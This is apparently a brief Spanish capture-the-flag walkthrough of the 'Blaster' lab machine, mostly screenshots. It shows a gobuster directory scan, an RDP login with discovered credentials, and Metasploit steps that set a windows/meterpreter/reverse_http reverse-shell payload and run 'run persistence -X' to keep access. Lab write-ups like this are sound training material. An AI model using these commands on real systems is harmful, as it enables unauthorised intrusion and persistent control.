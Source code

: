 # Blaster

## Nmap

![alt text](image.png)
![alt text](image-1.png)

## Fuzzing

    gobuster dir -u http://10.10.131.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php 

![alt text](image-4.png)

![alt text](image-2.png)

![alt text](image-3.png)

## MSRDP

Nos conectamos al Escritorio remoto

    xfreerdp /u:wade /p:parzival /v:10.10.131.79

![alt text](image-5.png)

En el historial podemos ver el CVE

En este video veremos el CVE en funcionamiento: https://www.youtube.com/watch?v=3BQKpPNlTSo

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

## Metasploit

![alt text](image-9.png)

![alt text](image-10.png)

Colocamos el LHOST

Colocamos el payload

    set payload windows/meterpreter/reverse_http

Ejecutamos la sesion como job

![alt text](image-11.png)

Copiamos el código en la consola de la máquina con acceso remoto, ya tendremos una shell meterpreter activa

Ejecutando el siguiente comando, conseguiremos persistencia en la máquina cuando el sistema se ejecuta

    run persistence -X